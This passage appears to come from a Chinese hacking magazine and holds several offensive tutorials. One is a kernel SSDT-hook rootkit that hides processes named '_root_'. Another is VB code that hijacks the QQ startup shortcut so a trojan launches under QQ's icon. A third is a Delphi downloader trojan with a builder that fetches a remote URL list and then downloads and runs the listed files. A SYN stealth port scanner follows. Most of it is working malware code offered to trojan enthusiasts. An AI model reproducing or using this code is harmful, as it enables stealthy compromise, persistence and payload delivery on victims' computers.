#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function+1)]
// 获得函数在SSDT中的索引宏
#define SYSCALL_INDEX(_Function) *(PULONG)((PUCHAR)_Function+1)
// 调换自己的hook函数与原系统函数的地址
#define HOOK_SYSCALL(_Function, _Hook, _Orig) \
_Orig = (PVOID) InterlockedExchange((PLONG)&MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG)_Hook)
// 卸载hook函数
#define UNHOOK_SYSCALL(_Function, _Hook, _Orig) \
InterlockedExchange((PLONG)&MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG)_Hook)
```

有点乱了吧？我来总结一下。如果要隐藏进程，我们可以先突破 SSDT 的内存保护，如上所用的 MDL 方法，然后实现自己的 NewZwQuerySystemInformation 函数，过滤掉以某些字符开头的进程，最后再用上面介绍的宏来交换 ZwQuerySystemInformation 与我们自己的 New* 函数。这里我们要首先声明进程和线程结构。

```c
struct _SYSTEM_THREADS {
    LARGE_INTEGER KernelTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER CreateTime;
    ULONG WaitTime;
    PVOID StartAddress;
    CLIENT_ID ClientId;
    KPRIORITY Priority;
    KPRIORITY BasePriority;
    ULONG ContextSwitchCount;
    ULONG ThreadState;
    KWAIT_REASON WaitReason;
};

struct _SYSTEM_PROCESSES {
    ULONG NextEntryDelta;
    ULONG ThreadCount;
    ULONG Reserved[6];
    LARGE_INTEGER CreateTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER KernelTime;
    UNICODE_STRING ProcessName;
    KPRIORITY BasePriority;
    ULONG ProcessId;
    ULONG InheritedFromProcessId;
    ULONG HandleCount;
    ULONG Reserved2[2];
    VM_COUNTERS VmCounters;
    IO_COUNTERS IoCounters; // windows 2000 only
    struct _SYSTEM_THREADS Threads[1];
};
```

下面给出一个完整的代码，它出自于 rootkit.com，我这里只详细讲解一下链表的操作，完整的代码已随文提供。

```c
if(SystemInformationClass == 5)
{
    // 在系统进程链表，寻找以“_root_”开头的进程
    struct _SYSTEM_PROCESSES *curr = (struct _SYSTEM_PROCESSES*)SystemInformation;
    struct _SYSTEM_PROCESSES *prev = NULL;
    while(curr)
    {
        if(curr->ProcessName.Buffer != NULL)
        {
            if(0 == memcmp(curr->ProcessName.Buffer, L"_root_", 12))
            {
                // 保存时间
                m_UserTime.QuadPart += curr->UserTime.QuadPart;
                m_KernelTime.QuadPart += curr->KernelTime.QuadPart;
                if(prev)
                {
                    if(curr->NextEntryDelta)
                        prev->NextEntryDelta += curr->NextEntryDelta;
                    else
                        prev->NextEntryDelta = 0;
                }
                else
                {
                    if(curr->NextEntryDelta)
                        (char*)SystemInformation += curr->NextEntryDelta;
                }
            }
        }
    }
}
```

```c
// 记下一项作为头结点
else
    SystemInformation = NULL;
}
else // Idle process入口
{
    // 把保存的_root_进程的时间加给Idle进程
    curr->UserTime.QuadPart += m_UserTime.QuadPart;
    curr->KernelTime.QuadPart += m_KernelTime.QuadPart;
    // 重设时间，为下一次过滤
    m_UserTime.QuadPart = m_KernelTime.QuadPart = 0;
    prev = curr;
    if(curr->NextEntryDelta)
        curr = ((char*)curr + curr->NextEntryDelta);
    else
        curr = NULL;
}
else if(SystemInformationClass == 8)
{
    // 列举系统进程时间
    struct _SYSTEM_PROCESSOR_TIMES *times = (struct _SYSTEM_PROCESSOR_TIMES*)SystemInformation;
    times->IdleTime.QuadPart += m_UserTime.QuadPart + m_KernelTime.QuadPart;
}
```

至此，我们就安装了 SSDT 钩子隐藏了进程。希望看完这篇文章后能对大家有所帮助。现在对内核研究的人越来越多，希望感兴趣的人也能加入这些人当中来，发掘出更多的东西来。

- 适合读者：编程爱好者、木马爱好者
- 前置知识：VB

## 创狠如生——



#### 木马自动方案大全

木马的启动方式形形色色，有写注册表的、有写成服务的，还有关联文件的，但都逃不过杀毒软件的火眼金睛。一次在检查启动项时，发现腾讯 QQ、金山词霸等都是直接在启动组创建快捷方式，于是灵光一闪，心生一条妙计：把腾讯 QQ 快捷方式的真实指向改为我们的马儿，但不改变其图标，并在马儿启动后再启动腾讯 QQ。于是神不知鬼不觉间，我们的马儿已搭上了顺水之舟。下面，我用 VB 编程来实现这个构想。

创建快捷方式，我们采用系统中 WSH（Windows Script Host）提供的 WshShell 类中的 CreateShortcut 方法，其 SpecialFolders 属性可以获取开始菜单、启动组、桌面等路径。WshShortcut 类的属性和方法分别如下。

| 属性/成员 | 类型 | 说明 |
|---|---|---|
| Arguments | String | 文档参数 |
| Description | String | 快捷方式描述（用于提示） |
| FullName | String（唯读） | 快捷方式的完整路径 |
| Hotkey | String | 快捷键 |
| IconLocation | String | 图标位置 |
| TargetPath | String | 可执行文件路径名称 |
| `Property WindowStyle As Long` |  | 窗口模式 |
| `Property WorkingDirectory As String` |  | 工作目录 |
| `Sub Save()` |  | 保存设定 |

打开 VB6，点击菜单“工程->引用”，选中“Windows Script Host Object Model”，再打开对象浏览器就可以查看 WSH 提供给我们的类的信息了。为了演示方便，我将 QQ 快捷方式的真实指向改为记事本，其图标仍指向腾讯 QQ 应用程序。腾讯 QQ 的安装路径保存在注册表键下，将其获取并保存到全局变量 `sExePathName` 中。程序代码如下。

```vb
Option Explicit
Const WshHide = 0
Const WshNormalFocus = 1
Const WshMinimizedFocus = 2
Const WshMaximizedFocus = 3
Const WshNormalNoFocus = 4
Const WshMinimizedNoFocus = 6
Const DESKTOP = "Desktop"
Const PROGRAMS = "Programs"
Const STARTMENU = "StartMenu"
Const STARTUP = "Startup"

Dim sExePathName As String, sStartupGroup As String

Private Sub Form_Load()
    Dim sQQPath As String
    sQQPath = getString(HKEY_LOCAL_MACHINE, "Software\Tencent\QQ", "install")
    If sQQPath = "" Then
        MsgBox "你还没有安装QQ哦，重找个程序做试验"
    Else
        sExePathName = sQQPath & "\QQ.exe"
    End If
End Sub

Private Sub cmdModify_Click()
    Dim oShell As WshShell
    Dim oShortcut As WshShortcut
    Dim fpos_path As String
    Dim sTargetPath As String
    On Error GoTo vbErrorHandler
    Set oShell = New WshShell
    fpos_path = oShell.SpecialFolders.Item(STARTUP)
    sStartupGroup = fpos_path
    Set oShortcut = oShell.CreateShortcut(fpos_path & "\腾讯QQ.lnk")
    sTargetPath = oShell.ExpandEnvironmentStrings("%windir%")
    ' ...
End Sub
```

```vb
With oShortcut
    .TargetPath = sTargetPath & "\Notepad.exe"
    .Arguments = "C:\boot.ini"
    .WorkingDirectory = "C:\Windows"
    .Hotkey = "Ctrl+Alt+F1"
    .WindowStyle = WshNormalFocus
    .IconLocation = sExePathName
    .Description = "中华人民共和国"
    .Save
End With

cmdOpenStartupGroup.Enabled = True
Exit Sub

vbErrorHandler:
MsgBox Err.Description, , "Create Shortcut"
End Sub

Private Sub cmdOpenStartupGroup_Click()
    Shell "explorer " & Chr(34) & sStartupGroup & Chr(34), vbNormalFocus
End Sub

Private Function getString(Hkey As Long, strPath As String, strValue As String) As String
    Dim keyhand As Long
    Dim datatype As Long
    Dim r As Long, lResult As Long
    Dim strBuf As String
    Dim lDataBufSize As Long
    Dim intZeroPos As Integer
    r = RegOpenKey(Hkey, strPath, keyhand)
    lResult = RegQueryValueEx(keyhand, strValue, 0&, lValueType, ByVal 0&, lDataBufSize)
    If lValueType = REG_SZ Then
        strBuf = String(lDataBufSize, " ")
        lResult = RegQueryValueEx(keyhand, strValue, 0&, 0&, ByVal strBuf, lDataBufSize)
        If lResult = ERROR_SUCCESS Then
            intZeroPos = InStr(strBuf, Chr$(0))
            If intZeroPos > 0 Then
                getString = Left$(strBuf, intZeroPos - 1)
            Else
                getString = strBuf
            End If
        End If
    End If
End Function
```

如果你觉得直接更改启动组里的快捷方式不好，也可以更改桌面上的；不怕没人点它。至于如何在马儿中实现启动腾讯 QQ，就不多说了。文中的代码在 Windows XP + VB6 中调试通过。如果有不明之处或者有不同意见，欢迎到黑防论坛或 VB 群讨论。



- 适合读者：编程爱好者
- 前置知识：Delphi

#### 服务器生成技术的思考

文／嗜血联盟@lxm_991

木马服务端生成技术相信大家都不陌生吧？最近我也在学。对于生成技术，我只能算是个小菜鸟。呵呵，看了那些高手写的源代码真是头晕，好长啊！所以我就研究了一种新方法，想知道吗？那就往下看吧。

在开始之前，我们先来了解一下服务端生成的原理。

- 1. 把服务端原始文件编译成资源文件；
- 2. 在程序中导入资源文件并接受用户的配置信息；
- 3. 查找修改地址并写入配置信息；
- 4. 生成服务端文件。

知道了原理，下面我们来一步一步地实现吧。首先我们要做的是编写原始服务端文件，这里就以我写的一个下载者为例进行说明。源代码如下所示。

```pascal
program down;
uses
  SysUtils, urlmon, strutils, windows;
function DownloadFile(Source, Dest: string): Boolean;
begin
  ...
end;

const
  fstring='xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx';

var
  file1:textfile;
  s,a:string;
begin
  downloadfile(f,'c:\windows\system32\atlog.txt');
  assignfile(file1,'c:\windows\system32\atlog.txt');
  reset(file1);
  while not eof(file1) do
  begin
    readln(file1,s);
    downloadfile(s,'c:\windows\system32\\'+rightstr(s,8));
    ...
  end;
end.
```

这是一个支持多文件下载的下载者服务端。原理是先下载用户的配置文件保存为 atlog.txt，然后根据配置文件的信息下载其他文件并运行。原理很简单，我就不多说了……

说明的是“f:string='xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx';”，f 是我们配置文件的地址。为什么要这样写呢？因为这样我们在后面才好定位位置，才能修改。这里我写了 50 个“x”，因为“x”的个数关系到用户能够输入的最大长度，所以要定义够了，免得后面不够用。我们把这个下载者编译成 down.exe，之后来查找 f 的地址。

运行 UltraEdit32 打开 down.exe，然后点搜索，选中查找 ASCII 字符，填上“xxxxxxxx”，就可以找到我们写在程序里的那一串“x”了。看看最下方的地址，我的是“54012”，把这个地址记下来保存好，后面要用到。

下面我们把 down.exe 编译成资源文件。新建一个文本文件并写入“downman RCDATA down.exe”，将其保存为 downman.rc，再把 downman.rc 和 down.exe 一起拷贝到 Delphi 的 bin 目录中。然后新建一个 CMD 窗口，进入 bin 目录，键入命令“Brcc32.exe downman.rc”，这样我们就得到了一个资源文件 downman.res。

现在，所有的条件都准备完了，我们来写主程序吧。

新建一个 VCL 工程，放上一个 edit 和一个 button，然后就可以写代码了。首先我们要建立一个全局变量“const offset_url:integer=54012”，这就是设定我们刚才找到的偏移地址。不过，要成功地加入资源文件，还要在“{$R *.dfm}”下面加上“{$r downman.res}”，这样我们就在程序中加入资源文件了。

接下来我们再来看看普通服务端生成程序的写法吧。详细代码如下。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  url:string;
  WriteBuff, ziyuanzhizhen: PChar;
  ziyuanweizhi: HRSRC;
  ziyuandaxiao, BytesWritten: Longword;
  ...
begin
  url:=trim(edit1.Text);
  if url<>'' then
  begin
    ziyuanweizhi := FindResource(HInstance, 'downman', RT_RCDATA);
    ziyuandaxiao := SizeofResource(HInstance, ziyuanweizhi);
    ...
  end;
end;
```

```pascal
// 资源大小
shujuchulijubing := LoadResource(HInstance, ziyuanweizhi);
ziyuanzhizhen := LockResource(shujuchulijubing);
shenqingzhizhen := CreateFile(pchar('server1.exe'), GENERIC_WRITE, FILE_SHARE_WRITE, nil, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
WriteFile(shenqingzhizhen, ziyuanzhizhen, ziyuandaxiao, BytesWritten, nil);
SetFilePointer(shenqingzhizhen, offset_url, nil, FILE_BEGIN);
WriteBuff := PChar(url + StringOfChar(#0, 50 - Length(url)));
WriteFile(shenqingzhizhen, WriteBuff, 50, BytesWritten, nil);
CloseHandle(shenqingzhizhen);
```

怎么样，看得头晕了吧？我也是啊。好了，下面就给大家介绍一种新的方法，很简单哦。

第一步，提取资源文件保存到内存流中。要提取资源文件，我们还要自己建立一个过程，其代码如下。

```pascal
procedure TForm3.restostream;
var
  Res: TResourceStream;
begin
  s := TMemoryStream.Create;
  Res := TResourceStream.Create(Hinstance, 'downman', RT_RCDATA);
  Res.SaveToStream(s);
  Res.Free;
end;
```

Res 是一个 TResourceStream（资源文件流），s 是一个 TMemoryStream（内存流），它是我们要在程序开始的时候就声明的全局变量。这段代码的功能就是把资源文件提取到资源流里再转存到内存流中。

第二步，用流来检索 f 的偏移地址并写入用户的配置信息中，代码如下所示。

```pascal
procedure TForm3.Button1Click(Sender: TObject);
var
  buffer: pchar;  // 用来填充xxxxxx……
  url: string;    // 用户输入的信息
begin
  url := trim(edit1.Text);
  buffer := pchar(url + stringofchar(#0, 50 - length(url)));
  restostream;
  s.Seek(offset_url, sofrombeginning);
  s.WriteBuffer(buffer^, 50);
  s.SaveToFile('server1.exe');
  s.Free;
end;
```

其中的 URL 就是我们用户输入的信息了；buffer 是用来填充“x.x.x……”的，“50”是我们前面写的“x”的个数。这次可以看懂了吧？是不是很简单？最后，再给大家提供一份完整的代码供参考。

```pascal
unit Unit3;
interface
uses Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms, Dialogs, StdCtrls;
const
  offset_url: integer = 54012;
type
  TForm3 = class(TForm)
    Edit1: TEdit;
    Button1: TButton;
    Label1: TLabel;
    procedure restostream;
    procedure Button1Click(Sender: TObject);
  private
  public
    s: TMemoryStream;
  end;

var
  Form3: TForm3;

implementation
{$R *.dfm}
{$r downman.res}

procedure TForm3.Button1Click(Sender: TObject);
var
  buffer: pchar;
  url: string;
begin
  url := trim(Edit1.Text);
  buffer := pchar(url + stringofchar(#0,50-length(url)));
  restostream;
  s.Seek(offset_url, sofrombeginning);
  s.WriteBuffer(buffer^,50);
  s.SaveToFile('server1.exe');
  s.Free;
end;

procedure TForm3.restostream;
var
  Res: TResourceStream;
begin
  s := TMemoryStream.Create;
  Res := TResourceStream.Create(Hinstance,'downman',RT_RCDATA);
  Res.SaveToStream(s);
  Res.Free;
end;
```

#### C# 编程实现半开扫描器

文/图 武汉大学2004级信息安全专业 朱思奇 王亦民

TCP 每次通信之前必须建立连接，连接初始化需要如图 1 所示的三次握手。最基本的扫描器称为 TCP connect 扫描，由于 connect 函数需要完整的三次握手，所以无论是从扫描时间长度，还是从隐蔽性来说，connect 扫描都是远远不够的。在这样的形势下，半开扫描技术便应运而生了。半开扫描技术并不需要建立完整的三次握手，而只是通过对方主机对 SYN 请求包的响应判断其端口的状态，无论从隐蔽性还是扫描时间上来说，都比 connect 扫描有相当大的改进。





SYN 半开扫描的思想最初源于网上一个流行的 DOS 攻击方式：SYN FLOOD。它的基本思想是通过发送 TCP 三次握手中第一次握手的 SYN 请求包，根据目标主机回应包相关标志位的置位情况来判断端口的状态。图 2 是本 SYN 扫描器的流程图，下面我们就来看一看 SYN 扫描器的具体工作流程。

```c
sockRaw = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
sockListen = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
```

对于发送部分，我们需要将用于发送的套接字 sockRaw 进行选项设置。通过 IP_HDRINCL 选项，可以对相应 IP 包头进行操作。

```c
BOOL bOpt = true;
iErrorCode = setsockopt(sockRaw, IPPROTO_IP, IP_HDRINCL, (char*)&bOpt, sizeof(bOpt));
```

在进入主函数之前，我们首先需要定义几个数据结构，依次为 IP_HEADER、TCP_HEADER 和 PSD_HEADER。IP_HEADER 定义了 IP 层包头的数据结构，TCP_HEADER 定义了 TCP 层包头的数据结构，PSD_HEADER 定义了 TCP 伪首部，用于填写 TCP 包头时校验和的计算。

下面我们正式进入主函数。首先我们需要初始化两个原始套接字，sockRaw 用来发送 SYN 请求包，sockListen 用于接收对方的响应包（由于篇幅限制，省略了一些基础函数，如 WSAStartup()、返回值检错等）。

接下来，我们还需要对相应包的 IP 和 TCP 包头进行填写。目的端口部分和校验和部分由于对扫描的每个端口都不相同，所以不统一填写，而是在循环中进行填写（由于篇幅限制，这里不再赘述包头填写，感兴趣的读者可以上网查阅，这部分网上资料较多）。现在，我们通过一个循环对目标主机的各个端口发送 SYN 请求包。循环内的主要工作是填充校验和（标准校验和函数 checksum 这里省略），将填好的 IP 和 TCP 包头填充到发送缓冲区进行发送。

```cpp
for(; DEST_PORT < DEST_PORTEND; DEST_PORT++)
{
    tcp_header.th_dport = htons(DEST_PORT);
    // 目的端口号
    // 计算TCP校验和，计算校验和时需要包括TCP伪首部
    memcpy(SendBuf, &psd_header, sizeof(psd_header));
    memcpy(SendBuf + sizeof(psd_header), &tcp_header, sizeof(tcp_header));
    tcp_header.th_sum = checksum((USHORT*)SendBuf, sizeof(psd_header) + sizeof(tcp_header));

    // 计算IP校验和
    memcpy(SendBuf, &ip_header, sizeof(ip_header));
    memcpy(SendBuf + sizeof(ip_header), &tcp_header, sizeof(tcp_header));
    memset(SendBuf + sizeof(ip_header) + sizeof(tcp_header), 0, 4);
    datasize = sizeof(ip_header) + sizeof(tcp_header);
    ip_header.checksum = checksum((USHORT*)SendBuf, datasize);

    // 填充发送缓冲区
    memcpy(SendBuf, &ip_header, sizeof(ip_header));
    // 发送TCP报文
    iErrorCode = sendto(sockRaw, SendBuf, datasize, 0, (struct sockaddr*)&dest, sizeof(dest));
}
```

到此为止，函数的发送部分已经基本完成了。接下来我们需要建立一个线程，并行地接收对方主机发来的响应信息。

为了方便起见，我们可以建立一个解包函数 DecodeIPHeader，对接收到的数据包进行分析，判断其 ACK 位以及 RST 位是否置位。

```cpp
bool DecodeIPHeader(char *buf, int bytes)
{
    IP_HEADER *iphdr;
    TCP_HEADER *tcphdr;
    unsigned short iphdrlen;

    iphdr = (IP_HEADER*)buf;
    iphdrlen = sizeof(unsigned long) * (iphdr->h_lenver & 0xf);
    tcphdr = (TCP_HEADER*)(buf + iphdrlen);

    // 是否来自目标IP
    if(iphdr->sourceIP != dest.sin_addr.s_addr) return false;

    // 序列号是否正确
    if((ntohl(tcphdr->th_ack) != (SEQ + 1)) && (ntohl(tcphdr->th_ack) != SEQ)) return false;

    // if(tcphdr->th_flag == 20) return true;
}
```

```cpp
// SYN/ACK -- 扫描到一个端口
if(tcphdr->th_flag == 18)
{
    printf("\t%d\t open \n", ntohs(tcphdr->th_sport));
    return true;
}
```

现在我们来看接收线程。接收线程主要任务是接收对方主机发来的 IP 包，并判断其 ACK、RST 位置位情况。判断部分我们已经有了一个 DecodeIPHeader 函数，现在需要的是设置接收套接字 sockListen，使得通过它可以接收所有数据包。我们先将监听套接字 sockListen 通过 bind 函数绑定在目标地址上，然后通过 WSAIoctl 函数设置 SIO_RCVALL 选项，使 sockListen 对应的网卡变成混杂模式，以便接收所有数据包，具体代码如下。

```cpp
iErrorCode = bind(sockListen, (PSOCKADDR)&sa, sizeof(sa));

// sa为sockaddr_in结构的变量，其地址内容为目标主机IP地址
DWORD dwBufferLen[10];
DWORD dwBufferInLen[10];
DWORD dwBytesReturned = 0;
iErrorCode = WSAIoctl(sockListen, SIO_RCVALL,
    &dwBufferInLen, sizeof(dwBufferInLen), &dwBufferLen, sizeof(dwBufferLen),
    &dwBytesReturned, NULL, NULL);
```

接下来我们通过一个 `for(;;)` 循环调用 recv() 函数来循环接收对方主机发送的响应包。这样，我们就可以在主函数中通过 CreateThread() 函数来完成对子线程的调用了。

最后，不要忘了做一些收尾工作，比如我们上面省略的对返回值的处理、出错处理，以及扫描完成后相应套接字的关闭等。至此，我们的整个 SYN 扫描器就算完成了。图 3 是本程序扫描某台本地主机的结果，还不错吧？



- 适合读者：编程爱好者
- 前置知识：C#

#### 自己动手编写 SQL 注入漏洞扫描器

文/图 张东辉 袁野

